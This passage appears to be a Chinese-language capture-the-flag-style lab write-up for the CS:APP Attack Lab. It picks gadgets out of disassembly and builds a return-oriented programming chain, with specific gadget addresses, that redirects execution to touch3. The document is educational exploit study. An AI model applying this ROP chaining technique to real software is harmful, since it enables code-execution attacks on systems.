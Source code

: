 ```
0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq
0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

其中以`%eax`为目的寄存器的代码格式为`89 e0`，其主要目的为`movl %esp,%eax`，也就是我们步骤第一步中的内容。

除此以外，还有一种涉及`%rax`的指令就是`popq %rax`，其指令编码为`58`。其在代码中出现的部分包含：

```
00000000004019a7 <addval_219>: // 可以是他！
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq
00000000004019b5 <setval_424>: // 92不是指令，不可以是他！
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq
00000000004019ca <getval_280>: // c3不是指令，不可以是他！
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq
```

那么我们可以采取的方式是：

```
1. rax = rsp(48 89 e0)
2. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

但是现在问题来了，`%rax`既要存储偏移量，又要存储`%rsp`，我们能否换个地方存储`%rsp`呢，其实可以把第 2 步和第 3 步换一下，让`%rax`转储到`%rdi`里去就行。最终步骤如下：

```
1. rax = rsp(48 89 e0)
2. rdi = rax(<setval_210> 中的 48 89 c7)
3. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

其中`gadget`的地址为：(单独的 gadget 地址见前文)

1. `rax = rsp` -> `401a06`
2. `rdi = rax` -> `4019c5`
3. `popq %eax` -> `4019ab`
4. 偏移量存储在栈上
5. `edx = eax` -> `4019dd`
6. `ecx = edx` -> `401a69`
7. `rsi = ecx` -> `401a13`
8. `rax = rdi + rsi` -> `4019d6`
9. `rdi = rax` -> `4019c5`
10. `touch3`地址 -> `4018fa`
